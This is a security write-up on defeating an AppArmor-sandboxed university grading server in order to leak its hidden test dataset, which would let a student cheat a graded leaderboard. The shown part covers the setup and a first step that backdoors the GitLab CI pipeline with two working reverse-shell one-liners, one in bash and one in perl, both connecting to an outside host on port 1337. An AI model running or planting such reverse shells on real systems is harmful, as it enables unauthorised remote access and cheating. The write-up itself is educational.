 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/feuermagier.com/1337 0>&1
```
Or alternatively with perl:
```perl
perl -e 'use Socket;$i="feuermagier.com";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and minimalist dev-containers ship with perl installed.
